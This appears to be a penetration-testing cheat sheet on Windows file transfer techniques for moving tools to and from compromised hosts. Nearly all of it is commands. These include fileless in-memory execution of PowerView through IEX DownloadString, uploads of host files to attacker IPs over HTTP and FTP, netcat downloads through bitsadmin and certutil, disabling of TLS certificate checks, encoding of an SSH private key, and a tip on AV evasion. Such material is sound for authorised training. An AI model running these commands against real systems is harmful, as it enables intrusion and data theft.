 # Windows File Transfers

## Windows File Transfers

Windows systems provide various native and third-party methods for transferring files across networks. Understanding these transfer techniques is crucial for penetration testers, especially when moving tools to and from compromised systems.

### Base64 Transfer Technique

For small files, Base64 encoding provides a method to transfer data without requiring direct file transfer protocols.

#### Encoding and Decoding Files

```bash
# Linux: Encode file
cat id_rsa | base64 -w 0
```

```powershell
# Windows: Decode file
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNC..."))

# Windows: Encode file
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

### PowerShell Web Transfers

PowerShell offers multiple built-in methods to download files from web servers.

#### Download Operations

```powershell
# Using Net.WebClient
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

# Asynchronous download
(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')

# Using Invoke-WebRequest
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

# With -UseBasicParsing (for IE first-launch configuration issues)
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -UseBasicParsing -OutFile PowerView.ps1
```

#### SSL/TLS Errors Bypass

```powershell
# Bypass certificate validation
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

#### Fileless Execution

```powershell
# Execute script directly in memory
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')

# Using pipeline
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1') | IEX
```

### SMB File Transfers

Server Message Block (SMB) protocol running on TCP/445 is commonly used in Windows environments for file sharing.

#### Setting Up SMB Server on Linux

```bash
# Basic SMB share
sudo impacket-smbserver share -smb2support /tmp/smbshare

# SMB with authentication
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

#### Connecting from Windows

```cmd
# Copy file directly
copy \\192.168.220.133\share\nc.exe

# Mount with credentials if blocked
net use n: \\192.168.220.133\share /user:test test
copy n:\nc.exe
```

#### WebDAV for SMB over HTTP

When direct SMB is blocked, WebDAV provides SMB functionality over HTTP:

```bash
# Start WebDAV server
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

```cmd
# Connect to WebDAV share
dir \\192.168.49.128\DavWWWRoot
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

### FTP File Transfers

File Transfer Protocol (FTP) on TCP ports 20/21 provides another option when SMB is unavailable.

#### Setting Up FTP Server on Linux

```bash
# Install pyftpdlib
sudo pip3 install pyftpdlib

# Start FTP server
sudo python3 -m pyftpdlib --port 21

# Allow uploads
sudo python3 -m pyftpdlib --port 21 --write
```

#### PowerShell FTP Download

```powershell
# Download via WebClient
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

#### Non-Interactive FTP Download

```cmd
# Create command file for FTP
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

### Upload Operations

#### PowerShell Base64 Encoding for Upload

```powershell
# Encode file content
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

#### PowerShell Web Upload

```powershell
# Using Invoke-RestMethod
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

# Base64 Web Upload
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

#### FTP Upload

```powershell
# PowerShell FTP upload
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```cmd
# Non-interactive FTP upload
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

### BITS (Background Intelligent Transfer Service)

BITS is a Windows component designed for efficient file transfers with bandwidth throttling.

```powershell
# Download using bitsadmin
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe

# Using PowerShell BITS module
Import-Module bitstransfer
Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### CertUtil Downloads

CertUtil, a Windows certificate utility, can be repurposed for file downloads.

```cmd
# Download a file
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

### Common Errors and Mitigations

#### IE First-Launch Error

```powershell
# Error message:
# The response content cannot be parsed because the Internet Explorer engine is not available

# Solution:
Invoke-WebRequest https://domain.com/file.txt -UseBasicParsing
```

#### SSL/TLS Certificate Error

```powershell
# Error message:
# Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."

# Solution:
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

#### SMB Access Denied Error

```cmd
# Error message:
# You can't access this shared folder because your organization's security policies block unauthenticated guest access

# Solution: Use authentication
net use n: \\192.168.220.133\share /user:test test
```

### Best Practices

1. **Use HTTPS/SSL** when transferring sensitive data
2. **Clean up files** after transfer when possible
3. **Consider multi-stage transfers** for AV evasion
4. **Validate file integrity** using file hashes
5. **Use native tools** to avoid introducing new binaries
6. **Test transfers** on similar systems before actual use
